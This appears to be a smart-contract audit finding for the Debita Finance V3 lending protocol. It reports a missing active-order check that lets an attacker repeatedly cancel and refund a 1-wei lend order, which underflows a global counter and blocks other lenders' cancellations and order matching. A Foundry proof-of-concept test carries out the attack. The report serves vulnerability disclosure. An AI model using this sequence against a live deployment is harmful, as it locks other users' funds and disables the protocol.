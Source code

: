 Micro Ginger Tarantula

High

# Cancelation and matching of lend orders can be dossed

### Summary

The ``DebitaLendOfferFactory.sol`` contract allows users to permisionlessly create lend orders by calling the [DebitaLendOfferFactory::createLendOrder()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L124-L203) function. It creates a new instance of the ``DebitaLendOffer-Implementation.sol`` contract, which is responsible for managing the lend order. It also tracks different parameters for all orders such as the number of all active orders via the ``activeOrdersCount`` parameter. When a lend order is not perpetual and all of its amount is matched the ``DebitaLendOffer-Implementation.sol`` instance calls the [DebitaLendOfferFactory::deleteOrder()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207-L220) function, which changes some params used to track information about the available orders and decreases the ``activeOrdersCount`` parameter. The [DebitaLendOfferFactory::deleteOrder()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207-L220) function is also called when a lender decides to cancel his lend order via the [DebitaLendOffer-Implementation::cancelOffer()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L144-L159) function:
```solidity
    function cancelOffer() public onlyOwner nonReentrant {
        uint availableAmount = lendInformation.availableAmount;
        lendInformation.perpetual = false;
        lendInformation.availableAmount = 0;
        require(availableAmount > 0, "No funds to cancel");
        isActive = false;

        SafeERC20.safeTransfer(
            IERC20(lendInformation.principle),
            msg.sender,
            availableAmount
        );
        IDLOFactory(factoryContract).emitDelete(address(this));
        IDLOFactory(factoryContract).deleteOrder(address(this));
        // emit canceled event on factory
    }
```
As can be seen from the above code snippet, the function only checks whether the available amount is bigger than 0, it doesn't check whether the lend order is active. The [DebitaLendOffer-Implementation::addFunds()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L162-L176) function allows the owner of the lend order to add funds to his order and in this way increae the available amount of his lend order:
```solidity
    function addFunds(uint amount) public nonReentrant {
        require(
            msg.sender == lendInformation.owner ||
                IAggregator(aggregatorContract).isSenderALoan(msg.sender),
            "Only owner or loan"
        );
        SafeERC20.safeTransferFrom(
            IERC20(lendInformation.principle),
            msg.sender,
            address(this),
            amount
        );
        lendInformation.availableAmount += amount;
        IDLOFactory(factoryContract).emitUpdate(address(this));
    }
```
As can be seen from the code snippet above the [DebitaLendOffer-Implementation::addFunds()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L162-L176) function also doesn't check whether the lend order is active or not. This is problematic because the [DebitaLendOffer-Implementation::cancelOffer()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L144-L159) function can be called multiple times by a malicious actor in order to decrease the global ``activeOrdersCount`` parameter, when that parameter reaches 0, and other non malicious users try to cancel their lend orders they won't be able to as the call will revert with an underflow error. It is the same scenario when a non perpetual lend order is fully matched when used as one of the lend orders in the [DebitaV3Aggregator::matchOffersV3()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L274-L647) function, the whole call will revert.  A [DebitaV3Aggregator::matchOffersV3()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L274-L647) function call can take up to 29 different lend orders. This essentially doses the matching of orders which is the main purpose of the protocol, an attacker can simply add 1 WEI of principal and then cancel his order as many times as he wishes,  essentially making the whole protocol obsolete, and resulting in the locking of funds of the lenders. 

### Root Cause

The [DebitaLendOffer-Implementation::cancelOffer()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L144-L159) and the [DebitaLendOffer-Implementation::addFunds()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L162-L176) functions don't check whether the lend offer is active or not. 

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

If a malicious actor is constantly adding funds to his lend order and then canceling it, he will keep the ``activeOrdersCount`` parameter at 0, which won't allow new loans to be created by matching borrow and lend orders via the [DebitaV3Aggregator::matchOffersV3()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L274-L647) function. Also when other lenders decide to cancel their lend orders and withdraw the principal they provided, they won't be able to do so, essentially locking the tokens in the Debita protocol. 

### PoC

[Gist](https://gist.github.com/AtanasDimulski/365c16f87db9360aaf11937b4d9f4be5)
After following the steps in the above mentioned [gist](https://gist.github.com/AtanasDimulski/365c16f87db9360aaf11937b4d9f4be5) add the following test to the ``AuditorTests.t.sol`` file:
```solidity
    function test_MaliciousActorCanDOSCancalationOfLendOrders() public {
        vm.startPrank(alice);
        USDC.mint(alice, 2_700e6);
        USDC.approve(address(dloFactory), type(uint256).max);
        bool[] memory oraclesActivated = new bool[](1);
        oraclesActivated[0] = false;

        uint256[] memory LTVs = new uint256[](1);
        LTVs[0] = 0;

        address[] memory acceptedCollaterals = new address[](1);
        acceptedCollaterals[0] = address(WETH);

        address[] memory oraclesCollateral = new address[](1);
        oraclesCollateral[0] = address(0);

        uint256[] memory ratio = new uint256[](1);
        ratio[0] = 2_700e6;

        address aliceLendOffer = dloFactory.createLendOrder(
            false,
            oraclesActivated,
            false,
            LTVs,
            1500,
            864_000,
            86400,
            acceptedCollaterals,
            address(USDC),
            oraclesCollateral,
            ratio,
            address(0),
            2_700e6
        );
        vm.stopPrank();

        vm.startPrank(bob);
        USDC.mint(bob, 2_700e6);
        USDC.approve(address(dloFactory), type(uint256).max);
        address bobLendOffer = dloFactory.createLendOrder(
            false,
            oraclesActivated,
            false,
            LTVs,
            1500,
            864_000,
            86400,
            acceptedCollaterals,
            address(USDC),
            oraclesCollateral,
            ratio,
            address(0),
            2_700e6
        );
        vm.stopPrank();

        vm.startPrank(tom);
        USDC.mint(tom, 2_700e6);
        USDC.approve(address(dloFactory), type(uint256).max);
        address tomLendOffer = dloFactory.createLendOrder(
            false,
            oraclesActivated,
            false,
            LTVs,
            1500,
            864_000,
            86400,
            acceptedCollaterals,
            address(USDC),
            oraclesCollateral,
            ratio,
            address(0),
            2_700e6
        );
        vm.stopPrank();

        vm.startPrank(attacker);
        USDC.mint(attacker, 1);
        USDC.approve(address(dloFactory), type(uint256).max);
        address attackerLendOffer = dloFactory.createLendOrder(
            false,
            oraclesActivated,
            false,
            LTVs,
            1500,
            864_000,
            86400,
            acceptedCollaterals,
            address(USDC),
            oraclesCollateral,
            ratio,
            address(0),
            1
        );
        USDC.approve(attackerLendOffer, type(uint256).max);
        DLOImplementation(attackerLendOffer).cancelOffer();
        DLOImplementation(attackerLendOffer).addFunds(1);

        DLOImplementation(attackerLendOffer).cancelOffer();
        DLOImplementation(attackerLendOffer).addFunds(1);

        DLOImplementation(attackerLendOffer).cancelOffer();
        DLOImplementation(attackerLendOffer).addFunds(1);

        DLOImplementation(attackerLendOffer).cancelOffer();
        DLOImplementation(attackerLendOffer).addFunds(1);         
        vm.stopPrank();

        vm.startPrank(alice);
        vm.expectRevert(stdError.arithmeticError);
        DLOImplementation(aliceLendOffer).cancelOffer();
        vm.stopPrank();
    }
```

To run the test use: ``forge test -vvv --mt test_MaliciousActorCanDOSCancalationOfLendOrders``

### Mitigation

_No response_